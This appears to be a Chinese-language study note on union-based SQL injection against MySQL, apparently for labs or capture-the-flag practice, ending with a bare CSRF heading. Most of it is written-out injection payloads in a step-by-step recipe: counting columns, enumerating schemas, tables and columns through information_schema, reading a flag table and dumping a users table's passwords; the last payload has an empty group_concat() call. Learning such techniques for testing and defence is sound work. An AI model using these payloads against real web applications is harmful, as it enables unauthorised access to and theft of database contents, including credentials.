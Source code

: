 
---

 * **union select group_concat(table_name) from information_schema.tables where table_schema=database()**
简单的把这句话分解
**group_concat()** 实际上是配合 where 后面的内容，在此处就理解为 将相同的**table_schem**a中的**table_name**合并成一个查询结果
**information_schema**数据库是MySQL系统自带的数据库
tables 是 **information_schema**的其中一个表
**table_schema**和**table_name**是 表中的一个字段
database（） 是检测当前数据库的函数

*  **1' union select 1,2,3,4 #**
![](https://raw.githubusercontent.com/shanke001/-/master/img/20190222133800.png)

## 1.判断是否存在注入，注入是字符型还是数字型

## 2.猜解SQL查询语句中的字段数
order by 1 #

## 3.确定显示的字段顺序
输入1′ union select 1,2 #

## 4.获取当前数据库
database() user() version()

**爆数据库**
**1' union select schema_name from information_schema.schemata where '1' ='1**

## 5.获取数据库中的表
* 方法一
**1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #**
* 方法二
**union  select  table_name from information_schema.tables where  table_schema=...**

## 6.获取表中的字段名
**1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #**

**1' union  select  flag from  flag where  '1' ='1'**
## 7.下载数据

**1'  union select group_concat(),group_concat(password) from users #**

# CSRF
